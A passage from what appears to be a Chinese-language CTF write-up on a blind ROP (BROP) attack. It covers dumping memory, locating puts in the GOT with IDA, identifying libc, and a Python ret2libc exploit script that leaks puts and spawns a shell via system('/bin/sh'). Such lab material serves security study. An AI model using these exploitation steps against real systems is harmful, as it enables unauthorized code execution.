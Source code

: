 ```py
            log.info("connect error")
    with open('pwn','wb') as f:
   		f.write(result)

```

注意：因为 puts 函数输出字符串末尾自带 \n ，所以我们要把 \n 删去，以防影响 dump 程序结果



### STEP 5 ：获取 puts_got

获取 puts_got 是为了能够 leak puts_addr ，以便能够确定远程靶机的 libc 版本。
在plt表中有一些公共表项，会跳到got表去执行。就因为它是_init_proc后的第一个函数，所以就可以判断这里是公共表项，再判断他是puts函数got表

将 dump 下来的内存丢入 IDA![image-20230805121240685](./images/brop)
在plt表中有一些公共表项，会跳到got表去执行。
通过上图即可判断出 puts_got -> 0x601018



### STEP 6 : 获取 libc 版本

python 工具 ： LibcSearcher 用在 exp 脚本里面的，可以获取 libc 版本

在线网站 ： https://libc.blukat.me/



### STEP 7：打 ret2libc

到这一步就很简单了

```py
p = process('./brop')
sa(b'>>\n', b'a'*0x18 + p64(rdi) + p64(0x601018) + p64(puts_plt) + p64(stop_gadget))
libc_base = l64() - libc.sym['puts']

lg('libc_base', libc_base)

ret = pop6_ret + 0xa
system, binsh = get_sb()

sa(b'>>\n', b'a'*0x18 + p64(ret) + p64(rdi) + p64(binsh) + p64(system))
inter()
```

